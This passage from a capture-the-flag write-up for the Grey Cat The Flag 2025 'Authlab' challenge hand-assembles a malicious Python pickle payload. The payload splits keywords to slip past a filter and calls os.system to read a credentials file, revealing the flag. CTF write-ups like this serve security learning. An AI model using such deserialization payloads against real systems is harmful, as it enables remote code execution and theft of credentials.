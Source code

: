 ```python
    pa.push_short_binunicode(w1)
    pa.push_short_binunicode(w2)
    pa.build_tuple2()
    pa.build_tuple1()
    pa.build_reduce()

def push_word3(pa, w1, w2, w3):
    push_join(pa)
    push_join(pa)
    pa.push_short_binunicode(w1)
    pa.push_short_binunicode(w2)
    pa.build_tuple2()
    pa.build_tuple1()
    pa.build_reduce()
    pa.push_short_binunicode(w3)
    pa.build_tuple2()
    pa.build_tuple1()
    pa.build_reduce()
```

With that, we can build our payload: (`[...]` represents the stack, top item on the right)

```python
pa = PickleAssembler(proto=4)
pa.push_global('builtins','getattr')
pa.push_short_binunicode('builtins')    # [ getattr  'builtins' ]
push_word2(pa,'__imp', 'ort__')         # [ getattr  'builtins'  '__import__' ]
pa.build_stack_global()                 # [ getattr  __import__ ]
push_word2(pa, 'o', 's')                # [ getattr  __import__  'os' ]
pa.build_tuple1()                       # [ getattr  __import__  ('os',) ]
pa.build_reduce()                       # [ getattr  os ]
push_word2(pa, 'sy', 'stem')            # [ getattr  os  'system' ]
pa.build_tuple2()                       # [ getattr  (os, 'system') ]
pa.build_reduce()                       # [ os.system ]
push_word3(pa, 'ca', 't Cr', 'eds.py')  # [ os.system  'cat Creds.py' ]
pa.build_tuple1()                       # [ os.system  ('cat Creds.py',) ]
pa.build_reduce()                       # executes os.system('cat Creds.py')

from base64 import b64encode
print(f'Payload: {b64encode(pa.assemble())}')
```

Using this, we can get the entire `Creds.py` file, including the flag `grey{4l1_aU7H_n0_p1Ay_M4k3_mE_4_d1ll_8oY}`.

Solve scripts: [original v1](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/solve/authlab1.1_solve_v1.py) [updated v2](https://raw.githubusercontent.com/k-hian/CTFWriteups/refs/heads/main/Grey%20Cat%20The%20Flag%202025/Authlab/solve/authlab1.1_solve_v2.py)

## Thoughts
